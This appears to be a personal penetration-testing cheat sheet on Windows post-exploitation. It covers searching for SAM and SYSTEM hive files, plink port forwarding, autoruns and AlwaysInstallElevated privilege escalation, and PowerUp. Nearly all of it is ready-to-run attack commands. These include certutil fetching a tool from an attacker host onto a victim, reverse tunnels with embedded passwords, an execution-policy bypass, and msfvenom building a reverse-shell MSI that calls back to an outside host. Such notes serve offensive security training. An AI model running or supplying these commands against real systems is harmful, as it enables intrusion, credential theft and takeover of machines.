### Look for files in ftp 

- `dir -a` hidden files 
- recycle bin is in the root of `C:`
- sam, system, software, security db 
- windowsupdate.log 
- license.rtf 

### Port Forwarding 

Kali
- plink.exe (download a new version)
- Host file on Linux
- `sudo apt install ssh`
- `/etc/ssh/sshd_config` edit ssh 
- find and set to `PermitRootLogin yes` save 
- restart ssh

Winodows
- `certutil -urlcache -f http://10.10.14.5/plink.exe plink.exe` download on victim
- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5` forward 445 on Local host to port on 445 victim
- `cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4` alertnate plink command on windows

Kali 
- run winexe to run windows commands from linux to remove linux hosts `win.exe -U Administrator%Welcome1! //127.0.01 "cmd.exe"` hit enter several times 

### Auto Runs 

Find and replace files that will run with higher permissions on logon 

- Use sysinternals to look for autoruns `./Autoruns/Autoruns.64.exe`
- Run access check. Checks permissions to file. Look for RW Everyone  `Accesschk\accesschk64.exe -wvu "c:\programname"`
#### PowerUp

- executionpolicy bypass powerhsell one liner `powershell -ep bypass`
- run `. .\PowerUp.ps1`
- `Invoke-AllChecks`


### Auto Elevate

- `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` check for auto elevate 
- `reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer` check for auto elevate in local machine 
- With the auto elevate enabled we could make an MSI file and it would run our code in prvileged mode 
- payload that can be run with msi `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f msi -o shell_reverse.msi`
